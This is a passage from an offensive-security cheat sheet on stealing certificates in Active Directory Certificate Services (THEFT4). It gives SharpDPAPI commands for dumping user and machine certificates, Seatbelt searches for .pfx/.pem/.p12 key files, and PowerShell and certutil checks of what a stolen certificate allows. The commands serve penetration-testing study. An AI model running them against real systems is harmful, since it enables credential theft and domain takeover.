 ```powershell
SharpDPAPI.exe certificates /pvk:key.pvk
```

#### Machine certificates

Same, but in a elevated context :

```powershell
SharpDPAPI.exe certificates /machine
```

To convert a PEM file to a PFX :

```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

### Finding certificate files - THEFT4

To search for possibly certificate and key related files with Seatbelt :

```powershell
./Seatbelt.exe "dir C:\ 10 \.(pfx|pem|p12)`$ false"
./Seatbelt.exe InterestingFiles
```

Other interesting extensions :

* `.key` : Contains just the private key
* `.crt/.cer` : Contains just the certificate
* .`csr` : Certificate signing request file. This does not contain certificates or keys
* `.jks/.keystore/.keys` : Java Keystore. May contain certs + private keys used by Java applications

To find what the certificate can do :

```powershell
$CertPath = ".\cert.pfx"
$CertPass = "Password123!"
$Cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 @($CertPath, $CertPass)
$Cert.EnhancedKeyUsageList

#Or with a pfx
certutil.exe -dump -v cert.pfx
```

Verify if a found certificate is the CA certificate (you are really lucky) :

```powershell
#Show certificate thumbprint
$CertPath = ".\cert.pfx"
$CertPass = "Password123!"
$Cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 @($CertPath, $CertPass)
$Cert.Thumbprint

#Verify CA thumbprint
certutil.exe find /quiet
```
